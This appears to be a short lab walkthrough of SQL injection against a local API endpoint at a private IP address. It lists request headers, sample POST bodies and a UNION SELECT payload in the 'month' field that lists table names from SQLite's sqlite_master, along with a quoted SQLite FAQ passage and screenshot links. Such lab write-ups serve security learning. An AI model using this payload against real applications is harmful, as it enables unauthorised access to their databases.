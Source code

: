 #### SQL Injection

```
http://192.168.1.22:8000/api/v1/activities/
```

- Header

```
Key : Content-Type
Value : application/json
```

```
Key : Accept
Value : application/json
```

- POST

```
{
	"month": "1"
}
```

```
{
	"month": "11"
}
```

```
{
	"month": "2"
}
```

```
{
	"month": "1 UNION SELECT 1,2,3,4,5,6,name FROM sqlite_master WHERE type='table';"
}
```

[``SQLITE FAQ``](https://sqlite.org/faq.html)

Every SQLite database has an ``SQLITE_MASTER`` table that defines the schema for the database

For tables, the type field will always be ``table`` and the name field will be the name of the table. So to get a list of all tables in the database, use the following ``SELECT`` command:

```sql
SELECT name FROM sqlite_master
WHERE type='table'
ORDER BY name;
```


![](images/5/1.png)

![](images/5/2.png)

![](images/5/3.png)

![](images/5/4.png)

![](images/5/5.png)

![](images/5/6.png)

![](images/5/7.png)

![](images/5/8.png)

![](images/5/9.png)